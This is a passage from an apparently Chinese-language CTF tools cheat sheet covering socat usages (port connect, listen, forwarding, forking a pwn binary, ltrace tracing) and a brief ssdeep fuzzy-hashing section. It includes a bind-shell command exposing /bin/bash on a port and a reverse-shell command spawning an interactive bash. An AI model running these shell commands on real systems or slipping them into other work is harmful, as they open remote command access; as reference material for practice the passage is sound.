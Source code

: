 连接远程端口

Copy

```
$ socat - TCP:localhost:80
```

监听端口

Copy

```
$ socat TCP-LISTEN:700 -
```

正向 shell

Copy

```
$ socat TCP-LISTEN:700 EXEC:/bin/bash
```

反弹 shell

Copy

```
$ socat tcp-connect:localhost:700 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

将本地 80 端口转发到远程的 80 端口

Copy

```
$ socat TCP-LISTEN:80,fork TCP:www.domain.org:80
```

fork 服务器

Copy

```
$ socat tcp-l:9999,fork exec:./pwn1
```

跟踪 malloc 和 free 调用及相应的地址：

Copy

```
$ socat tcp-listen:1337,fork,reuseaddr system:"ltrace -f -e malloc+free-@libc.so*  ./pwn"
```

## ssdeep

模糊哈希算法又叫基于内容分割的分片分片哈希算法（context triggered piecewise hashing, CTPH），主要用于文件的相似性比较。

Copy

```
-m - Match FILES against known hashes in file
-b - Uses only the bare name of files; all path information omitted
```
